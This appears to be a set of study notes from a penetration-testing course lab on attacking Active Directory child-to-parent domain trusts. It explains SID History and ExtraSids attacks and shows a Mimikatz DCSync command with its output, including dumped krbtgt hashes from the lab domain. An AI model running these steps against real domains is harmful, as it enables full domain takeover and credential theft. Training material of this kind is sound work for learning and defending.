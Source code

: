 # Attacking Domain Trusts - Child -> Parent Trusts - from Windows
## SID History Primer-
###### SID History injection allows an attacker to add a privileged SID (e.g., Domain Admin) to the SIDHistory attribute of a controlled account, so that when the account logs in, it inherits the privileges of the injected SID, enabling actions like DCSync or Golden Ticket creation for full domain compromise.
## ExtraSids Attack - Mimikatz
### To perform this attack after compromising a child domain, we need the following:
- ###### The KRBTGT hash for the child domain
- ###### The SID for the child domain
- ###### The name of a target user in the child domain (does not need to exist!)
- ###### The FQDN of the child domain.
- ###### The SID of the Enterprise Admins group of the root domain.
##### Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

## Obtaining the KRBTGT Account's NT Hash using Mimikatz
  
```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```
##### We can use the PowerView Get-DomainSID function to get the SID for the child domain, but this is also visible in the Mimikatz output above.
## Using Get-DomainSID
